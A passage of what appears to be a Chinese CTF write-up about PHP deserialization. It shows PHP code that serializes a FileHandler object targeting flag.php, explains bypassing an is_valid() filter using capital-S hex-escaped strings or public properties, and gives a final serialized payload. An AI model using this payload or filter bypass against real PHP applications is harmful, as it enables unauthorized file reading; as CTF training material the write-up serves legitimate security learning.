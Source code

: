 ```php
<?php
	class FileHandler {
		protected $op = 2;
		protected $filename = "flag.php";
		protected $content = "";
	}
	$a = new FileHandler();
	echo(serialize($a));
?>
```

![](https://img-blog.csdnimg.cn/20210316225749544.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

然而出现不可见字符 解决如以下两个方法：

一、\00
PHP序列化的时候`private`和`protected`变量会`引入不可见字符\x00`， %00*%00，输出和复制的时候可能会遗失这些信息，导致反序列化的时候出错，所以序列化也要加上这些东西。

而%00转化为ascii码会被is_valid()过滤掉。绕过的方法是`在序列化内容中用大写S表示字符串且空格处添加\00`，这时这个字符串就支持将后面的字符串用16进制表示。

最终构造的payload：
```
O:11:"FileHandler":3:{S:5:"\00*\00op";i:2;S:11:"\00*\00filename";S:8:"flag.php";S:10:"\00*\00content";S:0:"";}
```

二、public

php>7.1版本对类属性的检测不严格来绕过，`将序列化里的portected属性换成public属性，就不会有/00`


![](https://img-blog.csdnimg.cn/20210316230221272.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

